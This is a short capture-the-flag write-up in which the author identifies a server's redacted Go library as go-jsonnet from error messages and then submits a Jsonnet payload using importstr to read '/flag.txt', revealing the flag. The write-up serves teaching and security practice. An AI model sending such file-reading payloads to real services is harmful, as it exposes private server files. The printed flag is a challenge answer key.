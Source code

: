Looking at the source code provided first we can see a redacted Go library from github.

```
import (
    "net/http"
    "github.com/gin-gonic/gin"
    "github.com/REDACTED/REDACTED"
)
```

I cause some errors on the server to try and identify the library:

```
Expected token OPERATOR but got "}"
Expected a comma before next field
```

Both these errors point towards the go-jsonnet(https://github.com/google/go-jsonnet) library, which meets the stars requirement in the challenge description.

I end up looking for ways to read files in the issues section of the repo and find this issue(https://github.com/google/go-jsonnet/issues/337).

It mentions a payload like the following:

```
{
    "wow so advanced!!": importstr "/flag.txt”
}
```

Running it in the parser we are given the flag:

```
{
   "wow so advanced!!": "MAPNA{5uch-4-u53ful-f347ur3-a23f98d}\n\n"
}
```

Flag: MAPNA{5uch-4-u53ful-f347ur3-a23f98d}